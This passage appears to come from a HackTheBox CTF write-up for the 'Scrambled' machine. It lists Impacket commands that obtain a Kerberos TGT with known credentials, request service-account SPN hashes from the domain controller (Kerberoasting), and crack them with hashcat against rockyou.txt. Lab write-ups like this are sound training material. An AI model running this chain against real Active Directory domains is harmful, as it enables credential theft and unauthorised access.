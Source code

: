 ![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Kerberos/screenshots/kerberos%20authentication%20overview.png)

### impacket get TGT
````
sudo python3 getTGT.py scrm.local/ksimpson:ksimpson

`````

### TGT ticket name = ksimpson.ccache
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/impacket%20get%20TGT.png)

### export ticket name
````
export KRB5CCNAME=ksimpson.ccache

`````

### impacket get users SPN
````bash
sudo python3 GetUserSPNs.py -dc-host DC1.scrm.local -no-pass  scrm.local/ksimpson:ksimpson -request -k -outfile ~/Desktop/HackTheBox/Scrambled/usersSPNhash

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/impacket%20get%20users%20SPN.png)
### hashcat on SPNs hash 
````
./hashcat.bin ~/Desktop/HackTheBox/Scrambled/usersSPNhash /opt/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt

`````
